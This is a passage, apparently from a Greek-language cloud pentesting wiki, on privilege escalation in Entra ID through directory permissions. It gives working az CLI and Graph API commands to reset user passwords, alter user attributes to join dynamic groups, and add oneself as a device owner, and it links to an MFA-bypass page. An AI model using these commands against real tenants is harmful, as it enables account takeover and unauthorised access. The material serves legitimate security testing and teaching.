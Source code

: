 ## Χρήστες

### `microsoft.directory/users/password/update`

Αυτή η άδεια επιτρέπει την επαναφορά κωδικού πρόσβασης σε μη διαχειριστές χρήστες, επιτρέποντας σε έναν πιθανό επιτιθέμενο να αναβαθμίσει τα δικαιώματα σε άλλους χρήστες. Αυτή η άδεια δεν μπορεί να ανατεθεί σε προσαρμοσμένους ρόλους.
```bash
az ad user update --id <user-id> --password "kweoifuh.234"
```
### `microsoft.directory/users/basic/update`

Αυτή η άδεια επιτρέπει την τροποποίηση των ιδιοτήτων του χρήστη. Είναι συνηθισμένο να βρίσκουμε δυναμικές ομάδες που προσθέτουν χρήστες με βάση τις τιμές των ιδιοτήτων, επομένως, αυτή η άδεια θα μπορούσε να επιτρέψει σε έναν χρήστη να ορίσει την απαραίτητη τιμή ιδιότητας για να είναι μέλος μιας συγκεκριμένης δυναμικής ομάδας και να κλιμακώσει τα προνόμια.

{% code overflow="wrap" %}
```bash
#e.g. change manager of a user
victimUser="<userID>"
managerUser="<userID>"
az rest --method PUT \
--uri "https://graph.microsoft.com/v1.0/users/$managerUser/manager/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/users/$managerUser"}'

#e.g. change department of a user
az rest --method PATCH \
--uri "https://graph.microsoft.com/v1.0/users/$victimUser" \
--headers "Content-Type=application/json" \
--body "{\"department\": \"security\"}"
```
{% endcode %}

## Πολιτικές Προσβασιμότητας με Όρους & Παράκαμψη MFA

Λανθασμένα ρυθμισμένες πολιτικές προσβασιμότητας με όρους που απαιτούν MFA θα μπορούσαν να παρακαμφθούν, ελέγξτε:

{% content-ref url="az-conditional-access-policies-mfa-bypass.md" %}
[az-conditional-access-policies-mfa-bypass.md](az-conditional-access-policies-mfa-bypass.md)
{% endcontent-ref %}

## Συσκευές

### `microsoft.directory/devices/registeredOwners/update`

Αυτή η άδεια επιτρέπει στους επιτιθέμενους να αναθέτουν τους εαυτούς τους ως ιδιοκτήτες συσκευών για να αποκτήσουν έλεγχο ή πρόσβαση σε ρυθμίσεις και δεδομένα συγκεκριμένα για τη συσκευή.
```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/devices/$deviceId/owners/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```
### `microsoft.directory/devices/registeredUsers/update`
